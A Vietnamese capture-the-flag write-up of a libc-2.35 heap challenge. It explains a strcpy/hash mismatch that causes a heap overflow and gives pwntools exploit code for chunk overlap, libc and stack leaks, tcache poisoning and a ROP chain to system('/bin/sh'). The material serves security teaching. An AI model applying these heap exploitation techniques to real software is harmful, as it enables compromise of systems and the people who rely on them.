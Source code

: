 - ![image-20230324155035980](./assets/image-20230324155035980.png)

- ![image-20230324154910560](./assets/image-20230324154910560.png)

- Đây là 1 chall về `heap` khá đơn giản và nó được build trên `libc-2.35`. Ta sẽ điểm qua vài hàm như `create`, `hash` và `edit`

- ![image-20230324160030870](./assets/image-20230324160030870.png)

- `create` sẽ tạo một `struct rune` có 3 giá trị là `hash_id`, `ptr`, `size`, sau khi nhập `name` nó sẽ `hash(name)` để lấy `id`, nếu như `rune` không tồn tại thì sẽ `create`, như vậy `name` sẽ quyết định `id` của `rune` và được lưu tại `hash_id`

- ![image-20230324160633065](./assets/image-20230324160633065.png)

- hàm `hash` sẽ thực hiện cộng các giá trị trong `name` rồi đưa đi `& 0x3f` điều này để làm `val` không vựợt quá `0x3f`  

- Điểm bất thường nằm ở hàm `edit` khi nó sử dụng hàm `strcpy`, với hàm này nó sẽ dừng khi nó gặp `null`

- ![image-20230324160419007](./assets/image-20230324160419007.png)

- Ta đã biết `hash` sẽ không bỏ qua `null` do đó với `name = b'\x00\x01` thì giá trị `hash_id = 1` nhưng ở đây `dest` được cập nhật lại `name` thông qua `strcpy(dest, src)` với `name` ở bên trên thì `dest = b'\x00'` đây là lý do khi nó `hash(dest)` sẽ trả về `0` đáng lẽ ban đầu `hash_id` của nó là `1` nếu như ta tạo bình thường với `create` nhưng giờ đây `hash_id` đã đổi, do đó tại `read` thì `size` sẽ được lấy của `rune[0]` chứ không phải `rune[1]`, điều này có thể gây ra lỗi `heap overflow`

- Sau khi tìm được lỗi ta sẽ tiến hành khai thác nó, vì là `libc-2.35` nên ta sẽ `overlap chunk` để leak `libc` rồi leak` stack` để `overwrite saverip` của `read`.

- ```python
  create(b'\x00', 0x60)
  create(b'1', 0x20)
  for i in range(10):
      create(str(chr(i+5)).encode(), 0x60)
      
  for i in range(6):
      create(str(chr(i+15)).encode(), 0x30)
  ```

-  Đầu tiên ta sẽ setup các `chunk` để thực hiện `overlap`

- ```python
  payload = b'a'*0x20 + p64(0x461)
  edit(b'1', b'\x00\x04', payload)
  choice(2, b'\x05')
  ```

- sau khi `overlap` thì ta sẽ giải phóng để đưa nó xuống `unsorted bin` nhằm leak `libc`

- ![image-20230324162339613](./assets/image-20230324162339613.png)

- ![image-20230324162351605](./assets/image-20230324162351605.png)

- ```python
  create(b'\x21', 0x20, b'\x01')
  choice(4, b'\x21')
  r.recvuntil(b'contents:\n\n')
  libc.address = u64(r.recv(6) + b'\x00'*2) - libc_off
  print(hex(libc.address))
  
  choice(2, b'\x10')
  payload = b'a'*0x34 + b'abcd'
  edit(b'\x0f', b'\x00\x02', payload)
  choice(4, b'\x02')
  r.recvuntil(b'abcd')
  key = u64(r.recv(5) + b'\x00'*3)
  print(hex(key))
  ```

- sau khi leak `libc` và `key` ta sẽ tiến hành leak `stack` thông qua `libc environ`

- ```python
  choice(2, b'\x12')
  print(hex(libc.sym['environ']))
  payload = b'a'*0x30 + p64(0x41) + p64((libc.sym['environ'] - 16) ^ key)
  edit(b'\x11', b'\x00\x01', payload)
  
  create(b'\x30', 0x30)
  create(b'\x31', 0x30, b'a'*4 + b'abcd')
  choice(4, b'1')
  r.recvuntil(b'abcd')
  stack = u64(r.recv(6) + b'\x00'*2)
  print(hex(stack))
  ```

- bây giờ ta có thể `overwrite saverip` của `read` để thực thi `system("/bin/sh")`

- ```python
  choice(2, b'\x30')
  choice(2, b'\x14')
  payload = b'a'*0x30 + p64(0x41) + p64(saverip ^ key)
  edit(b'\x13', b'\x00\x03', payload)
  ```

- ![image-20230324162954599](./assets/image-20230324162954599.png)

- ```python
  create(b'2', 0x30)
  payload = flat(
      pop_rdi, next(libc.search(b'/bin/sh')),
      pop_rdi + 1,
      libc.sym['system']
  )
  create(b'3', 0x30, payload)
  ```

- ![image-20230324163353231](./assets/image-20230324163353231.png)

  
